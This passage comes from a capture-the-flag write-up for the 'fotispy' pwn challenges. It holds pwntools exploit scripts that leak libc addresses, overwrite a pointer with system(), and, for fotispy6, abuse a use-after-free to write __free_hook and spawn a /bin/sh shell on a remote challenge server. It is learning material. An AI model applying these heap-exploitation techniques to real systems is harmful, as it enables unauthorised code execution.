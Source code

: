 ```py
p.recvuntil("You Song has ")
least_byte = int(p.recvline().split(b" ")[0])
log.info("least byte: " + hex(least_byte))
p.recvuntil("You Song has ")
snd_byte = int(p.recvline().split(b" ")[0])
log.info("second byte: " + hex(snd_byte))
p.recvuntil("You Song is ")
trd_byte = int(p.recvline().split(b" ")[0])
log.info("third byte: " + hex(trd_byte))
libc_higher = least_byte + snd_byte*0x100 + trd_byte * 0x10000
log.info(libc_higher)
libc_leak = libc_higher*0x1000000 + libc_leak_lower
log.info("libc_leak: "+hex(libc_leak))
libc_base = libc_leak - 0x3c4b78
log.info("libc_base: "+ hex(libc_base))
system = libc_base  + libc.symbols["system"]
payload = b"a"*11 + p64(system)
edit_comment(11, 19, payload)
p.recvuntil("Choice: ")
p.sendline("8")
# gdb.attach(p)
# pause()
p.interactive()
```

## fotispy6

solved in around 30 mins.

libc 2.31 with UAF, just write to `__free_hook` and call free on a chunk containing `/bin/sh`.

```py
from pwn import *
context(log_level = 'debug', arch = "amd64", os = "linux")

# p = process("./fotispy6")
p = remote("52.59.124.14", 5196)

libc = ELF("./libc.so.6")

def create_user(user, passwd):
    p.recvuntil("Choice: ")
    p.sendline("1")
    p.recvuntil("Username: ")
    p.sendline(user)
    p.recvuntil("Password: ")
    p.sendline(passwd)

def add_song(comment_len, comment):
    p.recvuntil("Choice: ")
    p.sendline("2")
    p.recvuntil("How long will the comment be: ")
    p.sendline(str(comment_len))
    p.recvuntil("Enter the comment: ")
    p.sendline(comment)

def edit_comment(idx, comment_len, comment):
    p.recvuntil("Choice: ")
    p.sendline("3")
    p.recvuntil("Which song to you want to select: ")
    p.sendline(str(idx))
    p.recvuntil("How long will the new comment be: ")
    p.sendline(str(comment_len))
    p.recvuntil("Enter the new comment: ")
```